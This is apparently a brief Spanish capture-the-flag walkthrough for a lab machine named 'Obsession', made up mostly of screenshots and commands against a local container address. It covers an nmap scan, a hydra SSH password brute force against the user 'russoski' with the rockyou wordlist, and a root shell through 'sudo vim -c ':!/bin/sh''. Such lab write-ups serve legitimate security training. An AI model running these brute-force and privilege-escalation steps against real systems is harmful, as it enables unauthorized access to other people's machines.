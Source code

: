 Maquina: Obsession

Autor: Juan

Dificultad: Muy Facil

![Screenshot 2024-11-07 181430](https://github.com/user-attachments/assets/b8abf977-b39a-4d6e-9c3d-12cab1d42aae)

ping 172.17.0.2 -c 1
![Screenshot 2024-11-07 182037](https://github.com/user-attachments/assets/45c14360-6874-479c-a2ef-cc75d685ec30)

sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oN Escaneo
Vemos el puerto 80 abierto
![Screenshot 2024-11-07 182126](https://github.com/user-attachments/assets/5bc47602-d98d-4fd0-b57b-908ee60e5b8e)

miramos la web https:172.17.0.2
miramos el codigo y encontramos un posible usuario
![Screenshot 2024-11-07 182156](https://github.com/user-attachments/assets/a17c9e89-b4f5-4d03-a4eb-bd067743a58b)

sudo hydra -l russoski -P /usr/share/wordlists/rockyou.txt.gz ssh://172.17.0.2
![Screenshot 2024-11-07 182316](https://github.com/user-attachments/assets/74a9ad85-b61d-4661-b041-83ff2777f086)

ssh russoski@172.17.0.2
![Screenshot 2024-11-07 182503](https://github.com/user-attachments/assets/2be18b34-55e6-48b2-8da5-5ac15476a88a)

sudo -l
y encontramos que podemos ejecutar vim como root

sudo vim -c ':!/bin/sh'

whoami

![Screenshot 2024-11-07 182539](https://github.com/user-attachments/assets/d09fcdcc-86cf-4b7a-b90d-0f69d456fd65)
